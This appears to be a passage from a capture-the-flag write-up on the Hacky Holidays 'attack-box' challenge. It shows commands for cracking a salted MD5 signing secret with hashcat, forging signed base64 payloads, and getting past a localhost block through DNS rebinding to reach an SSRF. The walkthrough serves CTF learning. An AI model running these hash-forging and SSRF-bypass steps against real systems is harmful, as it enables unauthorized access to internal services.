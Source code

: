 Next immediate step I can think of trying to crack the hash. Having the ability to change target-IP should give us some SSRF. So let's try to crack the hash.

The hash can be formed in either of 2 ways:
* hash = "IP + SECRET"
OR
* hash = "SECRET + IP"

hashcat support cracking both types of hashes as follows:

* `hashcat -m 10` FOR "SECRET + IP"
* `hashcat -m 20` FOR "IP + SECRET"


```bash
>> echo "5f2940d65ca4140cc18d0878bc398955:203.0.113.33" > secret-ip.hash
>> echo "203.0.113.33:5f2940d65ca4140cc18d0878bc398955" > ip-secret.hash
>> hashcat -m 10 -a 0  secret-ip.hash rockyou.txt  --force
5f2940d65ca4140cc18d0878bc398955:203.0.113.33:mrgrinch463
```

Ok great, we have a hit. The `SECRET` used to create the hash is `mrgrinch463`. We can verify it as

```bash
>> sapra@Mabook-pro $ echo -ne 'mrgrinch463203.0.113.33' | md5
5f2940d65ca4140cc18d0878bc398955 # this is sae as original hash
```




Lets try to change target ip to 127.0.0.1
```bash
>> sapra@Mabook-pro $ echo -ne 'mrgrinch463127.0.0.1' | md5
3e3f8df1658372edf0214e202acb460b

>> echo {"target":"127.0.0.1","hash":"3e3f8df1658372edf0214e202acb460b"} | base64

Base64 = eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFjYjQ2MGIifQo=

Visit https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFjYjQ2MGIifQo=

```

We get `Local target detected, aborting attack`. Seems like we need to attack localhost, but its not allowed. Trying few SSRF bypass tricks like 
* using decimal IP
* Using Ipv6
* DNS-rebinding
* Using 302 redirect.
...

I got DNS-rebinding working. Steps to reproduce:

* Goto https://lock.cmpxchg8b.com/rebinder.html . This service provides the host with two 'A' Records which we can configure as required. So I configured them as follows:
    * 1st A record - 127.0.0.1
    * 2nd A record - 8.8.8.8
* This gives me host: `http://7f000001.08080808.rbndr.us`.
* create `hash` with the above host 
```bash
>> sapra@MacBook-Pro $ echo -ne 'mrgrinch4637f000001.08080808.rbndr.us' | md5
00830ee7e57f7d81ce889bd12a7cb0bd
```
* create base64 encoded JSON
```bash
>> sapra@Macbook-pro $ echo -ne {"target":"7f000001.08080808.rbndr.us","hash":"00830ee7e57f7d81ce889bd12a7cb0bd"} | base64
eyJ0YXJnZXQiOiI3ZjAwMDAwMS4wODA4MDgwOC5yYm5kci51cyIsImhhc2giOiIwMDgzMGVlN2U1N2Y3ZDgxY2U4ODliZDEyYTdjYjBiZCJ9
```